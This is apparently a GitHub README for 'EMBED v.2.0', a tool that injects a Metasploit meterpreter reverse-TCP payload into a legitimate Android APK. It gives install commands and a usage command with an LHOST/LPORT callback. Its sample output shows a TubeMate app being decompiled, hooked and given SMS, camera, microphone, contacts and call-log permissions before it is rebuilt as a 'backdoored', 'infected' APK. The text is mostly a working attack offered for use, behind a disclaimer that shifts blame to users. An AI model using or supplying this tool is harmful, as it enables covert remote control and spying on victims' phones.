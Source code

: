 # EMBED v.2.0
This tool creates a payload with metasploit framework and injected into a legitimate APK.

	DISCLAIMER
If the law is violated with it's use, this would be the responsibility of the user who handled it..
Ivam3 is not responsible for the misuse that can be given to everything that this laboratory entails

# REQUIREMENTS.
- Metasploit
- Java
- Keytool
- Apktool
- Jarsigner
- Apksigner
- Aapt

# INSTALLATION.
Clone this repositorie:

	$  apt install git -y
	$  git clone https://github.com/ivam3/embed.git

Give execute permissions to the configuration file setup:

	$  chmod +x setup

Now run the setup file:

	$  bash setup

This file will install and configure Termux with all the required libraries and dependencies including java for termux.

# JAVA FOR TERMUX.
For more information about java join to:

	https://github.com/ivam3/java

This software and related documentation are provided under license agreement containing in www.java.com. Please refer to http://java.com/licensereadme.

# USAGE

	root@user# ruby EMBED.rb PATH/to/legitim.apk -p android/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4546

	   ._____ __  __ ____  _____ ____
	   | ____|  \/  | __ )| ____|  _ \
	   |  _| |TERMUX|  _ \|  _| | | | |
	   | |___| |\/| | |_) | |___| |_| |
	   |_____|_|  |_|____/|_____|____/ v.2
	   #:::::::: By Ivam3 ::::::::::::#

	[*]─➤ Generating msfvenom payload..
	[*]─➤ Signing payload..
	[*]─➤ Decompiling orignal APK..
	[*]─➤ Ignoring the resource decompilation..
	[*]─➤ Decompiling payload APK..
	[*]─➤ Locating onCreate() hook..
	[*]─➤ Copying payload files..
	[*]─➤ Loading original/smali/devian/tubemate/home/Main.smali and injecting payload..
	[*]─➤ Poisoning the manifest with meterpreter permissions..
	[+]─➤ Adding android.permission.SEND_SMS
	[+]─➤ Adding android.permission.RECEIVE_SMS
	[+]─➤ Adding android.permission.RECORD_AUDIO
	[+]─➤ Adding android.permission.CALL_PHONE
	[+]─➤ Adding android.permission.READ_CONTACTS
	[+]─➤ Adding android.permission.WRITE_CONTACTS
	[+]─➤ Adding android.permission.RECORD_AUDIO
	[+]─➤ Adding android.permission.CAMERA
	[+]─➤ Adding android.permission.READ_SMS
	[+]─➤ Adding android.permission.RECEIVE_BOOT_COMPLETED
	[+]─➤ Adding android.permission.SET_WALLPAPER
	[+]─➤ Adding android.permission.READ_CALL_LOG
	[+]─➤ Adding android.permission.WRITE_CALL_LOG
	[*]─➤ Rebuilding /sdcard/Download/tubemate-2-4-21.apk with meterpreter injection as data/data/com_backdoored.apk..
	[*]─➤ Signing data/data/com_backdoored.apk ..
	[*]─➤ Aligning data/data/com_backdoored.apk ..
	[+]─➤ Infected file legitim.apk_final ready.


This tool was written by Ivam3, <https://t.me/Ivam3byCinderella>
Some maintenance releases have been done by <https://t.me/Ivam3_Bot>

